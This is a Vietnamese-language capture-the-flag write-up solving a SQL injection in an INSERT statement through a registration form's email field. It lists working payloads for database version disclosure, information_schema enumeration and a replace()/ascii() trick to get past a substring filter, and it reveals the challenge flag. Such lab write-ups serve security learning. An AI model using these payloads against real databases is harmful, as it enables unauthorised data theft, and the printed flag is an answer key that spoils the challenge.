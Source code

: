 # SQL injection - Insert

**Title**: Request Insert: fun & profit

**Point**: 40 Points

**Description**: Retrieve the flag.

## Solution:

Chúng ta có form "Authentication" dùng để xác thực và đăng nhập tài khoản:

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161995498-915ec343-be38-4062-a467-2e437892b01a.png" /> </p>

Form "Register" dùng để đăng ký tài khoản với các trường thông tin như hình dưới:

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161995684-8e5abfe4-470c-48ab-b60b-9e498e4fc249.png" /> </p>

Khi đăng nhập với user hợp lệ, ta sẽ có thông tin trả về:

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161998779-27b5c92c-5680-4352-adab-a711cd0b4c14.png" /> </p>

Đây là một bài dạng Injection tại vị trí từ khóa **Insert**. Tạo tài khoản tương đương với việc thêm thông tin giá trị vào các trường trong CSDL. Bây giờ ta sẽ tìm vị trí có khả năng chèn payload vào, sau một hồi testing ta có được:
- Username và Password cấm nhập ký tự đặc biệt, chỉ cho nhập các ký tự [a-z], [A-Z] và [0-9] . Điều này khiến ta không thể **escape** được keyword **Insert**.
- Email. Filter: `substring` `insert`. Ngoài ra, không cấm ký tự nào. Đây là chỗ ta có thể "tiêm vào".
- Cơ sở dữ liệu là **MariabDB** (test theo bên dưới, dùng đủ kiểu cú pháp show ra version của một database)

Chúng ta nhớ rằng, **Insert** có thể thực hiện chèn nhiều dòng cùng một lúc với cú pháp như sau:

```
INSERT INTO table_name ( 'value1', 'value2' , 'value3'), ('value4', 'value5', 'value6'), ... ;
```

Vậy chúng ta có thể bypass và inject một đoạn giá trị chúng ta có thể kiểm soát và khi đăng nhập với valid user thì nó sẽ xuất ra thông tin cho ta biết

> Lưu ý: Dấu `;` không bị filter mất, tuy nhiên mình chưa nghĩ ra cách khai thác nào gọi là "out of the box" :)) đối với tình huống này (dấu `;` được "thả rông" thường mang lại tùy biến cao) , bởi vì kết quả chỉ hiện ra theo thông tin mình khai thác trên mệnh đề **Insert**. Nên mình cứ follow theo bài thôi :<

Đăng ký tài khoản. Bây giờ chúng ta thực hiện escape và thêm dữ liệu ta mong muốn vào:

> `Username` và `Password` điền bừa. Đảm bảo không bị trùng lặp khi insert vào database, nếu không sẽ có lỗi "Request failed" vì database không biết lấy dữ liệu bị lặp nào. "Request failed" có thể nguyên nhân khác là do bị sai cú pháp truy vấn

```
1') , ('hihi1', 'hihi2', (select Version()) ) ; -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/162000641-eec3f4ec-de4a-4d7a-b530-bc5994c9fef1.png" /> </p>

Đăng nhập với `Username` là `haha1` và `Password` là `haha2` vừa đăng ký (insert vào) thành công:

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/162000928-d96b2858-3ac4-40e1-a190-589d295d3381.png" /> </p>

Tiếp theo ta tiếp tục exploit cơ bản. Lấy thông tin tên bảng:

```
1') , ('hihi3', 'hihi4', (select group_concat(table_name) from information_schema.tables) ) ; -- 
```
Đăng nhập với `hihi3` và `hihi4`

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/162001733-dd326e95-59e3-4801-910e-ee1cac59190c.png" /> </p>

Giờ thì bắt đầu hơi "khoai" rồi đó. Để ý chuỗi được xuất ra bị giới hạn chiều dài, nhưng mà không "seo". Cái này mình có thể dùng `substring` để bypass, lấy mấy ký tự cuối thôi.

> Lưu ý 1: Thường các bảng được tạo trên MySQL hay MariabDB sẽ nằm ở cuối

> Lưu ý 2: Ta có thể dùng câu truy vấn như này `select info from information_schema.processlist` để biết được tên bảng ta đang thực hiện **Insert** là `membres`, lấy được cả các thông tin như trường `username`, `password`, `email`, `date` có trong bảng. Tuy nhiên, challenge này bắt ta phải tìm **flag**, không phải **password** của **admin**, hướng đi này sẽ dẫn đến ngõ cụt

Ây chà, quên mất. Chừng khoảng chừng 0.1s, `substring` đã bị filter. Giờ thì khổ rồi đây, ngoài `substring` thì không có hàm nào thực hiện công việc cắt chuỗi tương tự, hoặc mình không biết :v . Thử encode payload chỗ `substring` và để dưới dạng hex form thì bị lỗi trả về (cái này làm mình nhức nhối không biết bên back-end xử lý như thế nào). 

Thôi kệ nghĩ hướng khác . Sau một hồi search thì mình thấy có một hàm là `replace()`, nếu thinking một tí kết hợp với hàm `ascii()` thì đây là một combo khá "lực". Mình có thể đoán tên một cột theo nguyên lý sau.

Ví dụ:

ascii('username') = ascii('u') = 117. Ta biết ký tự đầu rồi, xóa nó đi với hàm `replace()`

ascii(replace('username', 'u', '')) = ascii('sername') = ascii('s') = 115. Ta biết ký tự số 2 rồi, xóa nó đi tiếp với hàm `replace`

ascii(replace('username', 'us', '')) = ascii('ername') = ascii('e') = 101. Ta biết ký tự số 3 rồi, xóa nó đi tiếp với hàm `replace`

...

Cứ thế cho đến khi ta tìm được hết ký tự cần tìm. Quá là lợi hại luôn ! Bây giờ vấn đề là bảng chúng ta cần tìm nằm ở hàng thứ mấy, cái này "eazy peasy" thôi, dự đoán tên bảng cần tìm nằm ở mấy hàng cuối trong `information_schema.tables`, cứ truy vấn ngược lên (thấy cái nào có liên quan thì lấy). Dùng hàm `count()` để lấy số dòng trả về:

```
1') , ('hihi5', 'hihi6', (select count(table_name) from information_schema.tables) ) ; -- 
```
Đăng nhập với `hihi5` và `hihi6`

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/162006945-d33d1736-66bc-4d34-850d-4ee31ef22937.png" /> </p>

Giờ thì theo "combo" trên vận dụng 2 hàm `replace()` và `ascii()` và dùng hàm `char()` để chuyển ngược về ký tự để lấy tên bảng tại dòng thứ 80 có `offet=79`. Payload:

```
1') , ('hihi9', 'hihi10', (select char(ascii(table_name)) from information_schema.tables limit 79, 1)); -- 
```

Đăng nhập với `hihi9` và `hihi10`:

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/162008704-93a4896e-6fc0-4894-8912-2c66380644c9.png" /> </p>

OK. Chữ đầu là 'f' (Gặp mình bình thường mạnh dạn đoán table là "flag" luôn). Nhưng cứ làm tay cho chắc, payload xác định tại vị trí thứ 2 (xóa ký tự 'f' ở đầu để xác định ký tự tiếp theo):

```
1') , ('hihi11', 'hihi12', (select char(ascii(replace(table_name, 'f', ''))) from information_schema.tables limit 79, 1)); -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/162009824-60163237-d46b-475c-af5d-c0201fc23e94.png" /> </p>

Chữ thứ 2 là 'l'. Xóa 'fl' đi, payload lấy ký tự thứ 3:

```
1') , ('hihi13', 'hihi14', (select char(ascii(replace(table_name, 'fl', ''))) from information_schema.tables limit 79, 1)); -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/162010497-60fb77ac-a399-4f12-8e4f-2bebf95c62b5.png" /> </p>

Ký tự thứ 3 là 'a'. Xóa 'fla', tìm ký tự thứ 4:

```
1') , ('hihi15', 'hihi16', (select char(ascii(replace(table_name, 'fla', ''))) from information_schema.tables limit 79, 1)); -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/162011390-2a9e5153-978d-478a-8ea8-dc49813dcbdb.png" /> </p>

Ký tự thứ 4 là 'g'. Xóa 'flag', tìm ký tự thứ 5:

```
1') , ('hihi17', 'hihi18', (select char(ascii(replace(table_name, 'flag', ''))) from information_schema.tables limit 79, 1)); -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/162011064-86eb6624-d96a-40cb-bfa7-4813d3ba15cb.png" /> </p>

Không có gì xuất ra, vậy **table_name** cần tìm là 'flag'. Tìm tên các cột hiện có tương ứng trong bảng **flag**. Payload:

```
1') , ('hihi19', 'hihi20', (select group_concat(column_name) from information_schema.columns where table_name='flag')); -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/162012187-a02615d0-0b29-4895-b43e-128b58ce3f11.png" /> </p>

Có đúng một trường flag. Giờ thì đọc nó ra và tận hưởng thôi <3. Final payload:

```
1') , ('hihi21', 'hihi22', (select flag from flag )); -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/162012725-743225a0-83bb-41cc-b2b5-f3c8fcbd57d6.png" /> </p>

Flag: **moaZ63rVXUhlQ8tVS7Hw**

